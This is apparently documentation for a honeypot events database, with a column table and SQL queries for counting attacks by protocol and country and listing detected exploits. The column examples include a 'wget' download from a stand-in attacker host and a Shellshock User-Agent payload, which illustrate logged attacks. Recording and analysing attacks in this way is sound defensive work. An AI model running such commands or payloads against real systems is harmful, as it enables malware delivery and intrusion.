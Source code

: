 ### Columns Description

| Column | Type | Description | Example |
|--------|------|-------------|---------|
| `timestamp` | DateTime | Event occurrence time (UTC) | `2025-10-24 14:30:00` |
| `source_ip_hash` | String | Anonymized source IP (SHA256) | `a3f8b9c2...` |
| `source_ip_country` | String | Country code from GeoIP lookup | `CN`, `US`, `RU` |
| `dest_ip` | String | Destination IP (honeypot IP) | `172.20.0.10` |
| `dest_port` | UInt16 | Targeted port | `22`, `80`, `502` |
| `protocol` | String | Protocol used | `ssh`, `http`, `modbus` |
| `honeypot_name` | String | Source honeypot | `cowrie`, `dionaea`, `conpot` |
| `event_type` | String | Event category | `cowrie_login`, `dionaea_connection`, `conpot_modbus` |
| `event_data` | String | Full event JSON | `{"key": "value", ...}` |
| `session_id` | String | Unique session identifier | `a1b2c3d4` |
| `username` | String | Login username (if applicable) | `root`, `admin` |
| `password` | String | Login password (if applicable) | `password123` |
| `command` | String | Executed command (SSH/Telnet) | `wget http://evil.com/mal.sh` |
| `filename` | String | Downloaded/uploaded filename | `malware.bin` |
| `file_hash` | String | SHA256 hash of file | `e3b0c442...` |
| `url` | String | HTTP URL accessed | `/cgi-bin/test.sh` |
| `user_agent` | String | HTTP User-Agent header | `() { :; }; echo pwned` |
| `is_exploit` | String | Exploit flag ('0' or '1') | `1` |
| `exploit_type` | String | Exploit category | `shellshock`, `sqli` |
| `success` | UInt8 | Login success indicator | `0` (failed), `1` (success) |

### Common Queries

```sql
-- Event count by protocol (last 24 hours)
SELECT protocol, count() as cnt
FROM honeynet.honeypot_events
WHERE timestamp >= now() - INTERVAL 24 HOUR
GROUP BY protocol
ORDER BY cnt DESC;

-- Top 10 attacking countries
SELECT source_ip_country, count() as attacks
FROM honeynet.honeypot_events
WHERE timestamp >= now() - INTERVAL 7 DAY
GROUP BY source_ip_country
ORDER BY attacks DESC
LIMIT 10;

-- Detected exploits
SELECT timestamp, source_ip_hash, protocol, exploit_type, url, user_agent
FROM honeynet.honeypot_events
WHERE is_exploit = '1'
  AND timestamp >= now() - INTERVAL 1 DAY
ORDER BY timestamp DESC;
```